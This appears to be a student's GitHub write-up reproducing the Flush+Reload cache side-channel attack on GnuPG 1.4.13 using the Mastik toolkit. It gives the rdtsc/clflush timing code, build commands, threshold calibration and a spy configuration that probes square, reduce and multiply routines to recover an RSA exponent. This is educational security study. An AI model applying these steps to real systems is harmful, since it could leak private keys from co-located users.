

# Flush + Reload

A note contains my understanding and trace of the attacks reproducing

## Background

### Microarchitecture


### Cache

The cache is used to solve the problem that the memory is slower than the processors. It is an expensive technology and much closer to the CPU, so it is faster than memory access.

The CPUs use the cache to store the recent lines of memory they read. If a CPU has multiple cores, the cores can use one of the cached content by others to save time.

### Memory

The processes execute themselves in the virtual address space. Typically, the virtual address space is a fake address. Then, these fake addresses were mapped into the physical memory addresses. In this way, the processes will not fight each other in memory.

Sharing of the cache is used to save the physical memory. An example here: shared libraries. If two programs use the same shared library, we can map this shared library to the same location. The operating system can be more aggressive and do page deduplication. In essence, it detects duplicated memory patterns and de-duplicate them, removing one of them, then mapping the two programs to the same region in memory. If one of the processes then wants to modify some of that shared memory, the system will copy it somewhere else so that he can do that. It was very popular with hypervisors back then, but since cache attacks are a thing, we don't do that anymore.

### Flush + Reload Basis

Inconsistency between memory and cache happens. Sometimes developers want to flush the data in the cache to make sure that the next load is served directly from memory. Occasionally, we need to "totally" refresh a webpage in Chrome to make the CSS and JS are reloaded instead of the contents in the cache, To be more specific, using `Ctrl + Shift + R` instead of `Ctrl + R` in Chrome. And that is the basis of the `Flush + Reload` Attack.

The process of Flush + Reload is quite straightforward: Read form memory and then flush that cache position repeatedly. If the read takes a `long` time means it is normal. If it takes `short` time means someone else accessed it in memory and it was cached.

the definition of `long` and `short` will be explained in the detail in the following section.

### Flush + Reload Core

Let's look at the assemble code

``` assemble
mfence
lfence
rdtsc
lfence
movl %%eax, %%esi
movl (%1), %%eax
lfence
rdtsc
subl %%esi %%eax
clflush 0(%1)
```

`clfush`: It is the instrction to flush the cache

`rdtsc`: Read the time stamp counter

`lfence`: This instruction provides a performance-efficient way of ensuring load ordering between routines that produce weakly-ordered results and routines that consume that data

Hence, we can get the delta of two `rdtsc` instructions to measure the runtime of the `mov` operation in between

## Reproducing

> Important! AMD, X86-32bit, and ARM chips were not supported!!

Environment

- Computer: MacBook Pro 2015 13"
- OS: Ubuntu 18.04.4 LTS
- Kernel: 5.3.0-46-generic
- CPU: Intel i5-5287U @ 2.90GHZ x 4
- OS Type: 64-bit
- Memory: 7.7 GB

For more information, please check the file `environment.md`

## Install Dependencies

Build tools:

``` bash
sudo apt install curl gcc-multilib build-essential
```

Flush + Reload dependencies

``` bash
sudo apt install libdwarf-dev binutils-dev libelf-dev
```

## Compile the GnuPG 1.4.13

Download and extract the source code

``` bash
cd ~
curl -O https://gnupg.org/ftp/gcrypt/gnupg/gnupg-1.4.13.tar.gz
tar -zxvf gnupg-1.4.13.tar.gz
```

Compile the GnuPG through make

``` bash
./configure
make
```

The compiled file will locate at `~/gnupg-1.4.13/g10/gpg`

## Generate the default key

``` bash
cd ~
mkdir gnupg_home
chmod 777 ./gnupg_home
export GNUPGHOME="~/gnupg_home"
~/gnupg-1.4.13/g10/gpg --gen-key
```

Select the following and input your information (username, comment, email)

- RSA and RSA
- 2048
- Never Expires

An example of console output:

``` null
gpg (GnuPG) 1.4.13; Copyright (C) 2012 Free Software Foundation, Inc.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Please select what kind of key you want:
   (1) RSA and RSA (default)
   (2) DSA and Elgamal
   (3) DSA (sign only)
   (4) RSA (sign only)
Your selection? 1
RSA keys may be between 1024 and 4096 bits long.
What keysize do you want? (2048)
Requested keysize is 2048 bits
Please specify how long the key should be valid.
         0 = key does not expire
      <n>  = key expires in n days
      <n>w = key expires in n weeks
      <n>m = key expires in n months
      <n>y = key expires in n years
Key is valid for? (0)
Key does not expire at all
Is this correct? (y/N) y
```

Encrypt a test message

``` bash
cd ~
mkdir encryption
echo "Hello World" > ~/encryption/encryption.txt
~/gnupg-1.4.13/g10/gpg -r "Test Key" -e ~/encryption/encryption.txt
```

To decrypt the messages, this step requires the  

``` bash
~/gnupg-1.4.13/g10/gpg -d ~/encryption/encryption.txt
```

If you get your encrypted message, everything works fine

## Compile the Mastik

``` bash
cd ~
curl -O https://cs.adelaide.edu.au/~yval/Mastik/releases/Mastik-0.02-AyeAyeCapn.tgz
tar -zxvf Mastik-0.02-AyeAyeCapn.tgz
cd Mastik-0.02-AyeAyeCapn
./configure
make
```

Copy the gpg binary file into the demo folder

## File access

The program is pretty short and concise, it monitored a file continuously via reading and flushing

Open a terminal and run the following

``` bash
./FR-1-file-access
```

Open another terminal, use `cat` or `vim` to open the `FR-1-file-access.c`

``` bash
vim FR-1-file-access.c
```

You will see the output from the first terminal

``` bash
FR-1-file-access.c   accessed
```

In this code, Yuval sets 100 as a threshold for long and short

## Threshold

This program is used to find the threshold for `long` and `short`

``` bash
./FR-threshold
```

In my case, the output is

``` bash
               :  Mem   Cache
Minimum        :  172   63
Bottom decile  :  194   66
Median         :  211   83
Top decile     :  217   86
Maximum        :  36882 6154
```

However, I also tried the same thing in the AMD chips, and the output is following:

``` bash
               :   Mem   Cache
Minimum        :   259   259
Bottom decile  :   296   296
Median         :   296   296
Top decile     :   333   333
Maximum        :   13579 6327
```

A possible explanation for this behavior is that the AMD caches are non-inclusive, i.e. data in L1 does not need to also be in L2 or L3

## Modular exponentiation

``` c
x ⟵ 1
for i ⟵ |e|-1 downto 0 do
    x ⟵ x2 mod n
    if (ei = 1) then
        x = xb mod n
    endif
done
return x
```

According to the code, the modular exponentiation used the following operations:

- Square
- Reduce
- Multiply

The secret exponent is encoded in the sequence of operations

Code in the Flush and Reload:

``` C
#define SAMPLES 100000
#define SLOT    2000
#define THRESHOLD 100

char *monitor[] = {
  "mpih-mul.c:85",
  "mpih-mul.c:271",
  "mpih-div.c:356"
};
```

Therefore, we will monitor these three functions based on the idea of Flush and Reload. After running the spy program and the GnuPG.

Please check the following outputs.

``` na
4398: 208 211 63
4399: 208 83 83
4400: 191 163 83
4401: 208 188 66
4402: 399 191 83
4403: 83 86 83
4404: 83 217 315
4405: 280 461 83
4406: 208 188 66
4407: 309 83 66
4408: 208 208 208
4409: 191 208 83
4410: 357 208 66
4411: 208 83 83
4412: 191 208 205
4413: 539 208 83
4414: 191 211 83
4415: 149 69 66
4416: 83 211 146
4417: 66 208 80
4418: 191 205 80
4419: 256 140 83
4420: 208 208 208
4421: 503 211 80
4422: 191 191 83
4423: 146 83 83
```

Before the colon, the number indicates the `Time Slot Number` The first column of the number: `Probe Time (cycles)`, means the execution time of the Square function. The second column of the number indicates the execution time of the Reduce function, and the last one involves the Multiply.

Based on the sequence of each operation, if the counter is less than 120, we infer that it comes from the cache. Check the image below for the Time Measurements of Probes.


